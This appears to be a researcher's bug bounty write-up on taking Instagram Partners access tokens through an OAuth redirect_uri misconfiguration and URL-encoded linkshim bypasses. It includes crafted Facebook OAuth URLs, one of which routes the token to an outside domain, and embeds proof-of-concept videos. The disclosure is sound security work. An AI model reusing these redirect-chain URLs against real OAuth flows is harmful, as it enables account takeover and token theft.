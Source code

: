 >Getting access token of instagram partner's account through referrer leakage using linkshim

This issue allowed me to take over the insta partners account code and access_token.

Instagram partners uses facebook for authentication. The redirect_uri for the fb oauth is `instagrampartners.com`. But a small
misconfiguration in redirect_uri helped me to take over the access_token.

Partners was allowing `instagram.com` as a domain for redirection and even subdomains `*.instagram.com`. There is no option for me 
except linkshim or oauth to bypass. linkshim clears the referrer and remaining headers before redirecting.

Redirection bypass contained url encoded elements which helped parameters from facebook to escape the linkshim of instagram. Using 
url encoding helped linkshim url with access token to leak through referrer.

Example consider this linkshim instagram url:

>http://l.instagram.com/?e=ATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw&u=http://google.com/

Linkshim bypass url :

>http://l.instagram.com/?e%3DATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw%26u%3Dhttp://google.com

Oauth bypass url : 
>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&redirect_uri=http%3A%2F%2Fl.instagram.com%2F%3Fe%3DATNqsDRx0x7ZVfVF282iVvW4zr6QOhmME_M35bNw6rHrt6L30ajQ2t-YStDi6g%26u%3Dhttp%3A%2F%2Fgoogle.com%2F&scope=public_profile%2Cemail&response_type=code


Proof of concept : 

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZk4zMU9TdUFQMzg/preview" width="640" height="480"></iframe>


Code it self can't do any thing without `client_secret` and same redirect url (instagrampartners.com) for explict authentication from server side.
Linkshim was not allowing url fragments. When `response_type` is set to `token`, It returns in the from of fragment. So anything
after `#` is negelected by linkshim. I used oauth to bypass the restrictions by linkshim.

Oauth bypass url using oauth :

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&scope=public_profile%2Cemail&response_type=token&redirect_uri=https%3A%2F%2Fwww.instagram.com%2Foauth%2Fauthorize%2F%3Fclient_id%3D{REDACTED}%26response_type%3Dcode%26redirect_uri%3Dhttp%3A%2F%2Fmunchinng.com%2F%26state%3D

Proof of concept :

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZTJEdmtIc1lMUDA/preview" width="640" height="480"></iframe>


